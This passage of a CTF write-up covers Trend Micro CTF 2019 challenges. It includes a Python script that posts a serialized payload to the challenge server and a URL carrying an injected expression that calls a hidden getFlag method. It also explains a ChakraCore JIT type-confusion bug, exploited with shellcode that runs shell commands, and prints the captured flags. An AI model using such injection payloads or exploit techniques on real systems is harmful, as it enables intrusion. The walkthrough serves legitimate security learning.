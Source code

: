 ```python=
import requests

with open("name.ser") as f:
    x  = f.read()
r = requests.post("http://flagmarshal.xyz/jail", data=x, headers={'Content-Type': 'application/x-www-form-urlencoded'})
print r.text
```

=> `Sorry Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain. I cannot let you have the Flag!.`

And run the `getFlag()`: http://flagmarshal.xyz/Office?key=Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain&nametag='%2bT(com.trendmicro.jail.Flag).getFlag()%2b'

![](https://github.com/w181496/CTF/raw/master/trendmicro-ctf-2019/forensics300/trend.png)

`TMCTF{F0OlLM3TwIcE1Th@Tz!N1C3}`

### 400

We were asked to pwn a modified ChakraCore Javascript engine. By looking at the diff file:


```diff
diff --git a/lib/Backend/GlobOptFields.cpp b/lib/Backend/GlobOptFields.cpp
index 88bf72d32..6fcb61151 100644
--- a/lib/Backend/GlobOptFields.cpp
+++ b/lib/Backend/GlobOptFields.cpp
@@ -564,7 +564,7 @@ GlobOpt::ProcessFieldKills(IR::Instr *instr, BVSparse<JitArenaAllocator> *bv, bo
         break;
 
     case Js::OpCode::InitClass:
-    case Js::OpCode::InitProto:
+    //case Js::OpCode::InitProto:
     case Js::OpCode::NewScObjectNoCtor:
     case Js::OpCode::NewScObjectNoCtorFull:
         if (inGlobOpt)

```

We can see that the `InitProto` opcode has been commented out inside the [ProcessFieldKills](https://github.com/microsoft/ChakraCore/blob/master/lib/Backend/GlobOptFields.cpp#L291) function, making the engine think that the `InitProto` opcode will not have side effects while doing JIT, which may lead to type confusion in the JITed code.

By searching the internet, we found that there's already a [PoC](https://packetstormsecurity.com/files/151219/Microsoft-Edge-Chakra-JIT-NewScObjectNoCtor-InitProto-Type-Confusion.html) for this vulnerability. So we just downloaded the PoC and started modifying the code. After hours of trying/debugging, we finally managed to let the js engine jump to our shellcode ( the binary has no DEP protection ). The rest is simple: first we execute `execve("/bin/sh", ["/bin/sh", "-c", "ls"])` to get the file list in the challenge directory. After we saw the `flag` file, we just execute `execve("/bin/sh", ["/bin/sh", "-c", "cat flag"])` to get the flag.
